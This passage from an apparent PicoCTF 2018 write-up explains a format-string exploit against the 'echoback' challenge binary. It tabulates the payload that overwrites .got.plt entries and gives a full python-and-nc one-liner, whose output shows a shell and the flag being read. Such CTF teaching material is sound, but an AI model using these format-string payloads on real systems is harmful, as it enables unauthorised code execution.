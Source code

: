 **Now**, the format string to do the appropriate writes to the `.got.plt` table:

| Format String Value | *Description* |
| --- | --- |
| `"\x10\xa0\x04\x08"` | little-endian address of `printf` entry in `.got.plt` (prints 4 chars) |
| `"\x1c\xa0\x04\x08"` | little-endian address of `puts` entry in `.got.plt` (prints 4 chars) |
| `"%1$0134513752x"` | print arg 1 as a hex value, padded with 0's, so that it is 134,513,752 chars wide |
| `"%7$n"` | write the # of chars printed so far (134,513,752 + 4 + 4) into the address pointed to by the 7th argument |
| `"%1$0331x"` | print arg1 as a hex value, padded with 0's, so that it is 331 chars wide |
| `"%8$n"` | write the # of chars printed so far (134,513,752 + 4 + 4 + 331) into the address pointed to by the 8th argument) |
| &lt;padding&gt; | pad the format string out to be exactly `0x7f` (127) bytes long

The format string, without the padding, is 4 + 4 + 14 + 4 + 8 + 4 = 38 bytes, which means we should add 89 bytes of padding.

After the padding is finished, we expect the program to jump into `vuln` again, and start reading a new string. This time we want the buffer to start with `"/bin/sh\0"`. Let's put all of this together and try it out:

```
$ (python -c 'print("\x10\xa0\x04\x08\x1c\xa0\x04\x08%1$0134513752x%7$n%1$0331x%8$n" + "U"*89 + "/bin/sh\0")'; cat -) | nc 2018shell.picoctf.com 37402
<LOTS OF OUTPUT ...>
0000000ffa4ab8cUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUinput your message:
ls
echoback
echoback.c
flag.txt
xinet_startup.sh
cat flag.txt
picoCTF{===REDACTED===}
```
{:.contains-term}

Just as in previous examples, we spawn a sub-shell to first print out the format string, and then start `cat` to echo back `stdin` into `stdout`. We pipe the combined output of both of these programs into the `nc` command which is used to connect to the challenge binary on the shell server. When the program on the other end receives the input that we've generated, it will eventually call `system("/bin/sh")`, at which point `cat` will be listening on our end for user input and will echo it back into the `nc` process, which in turn gets feed into the shell, giving us an interactive terminal. Head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) to continue with the next challenge.
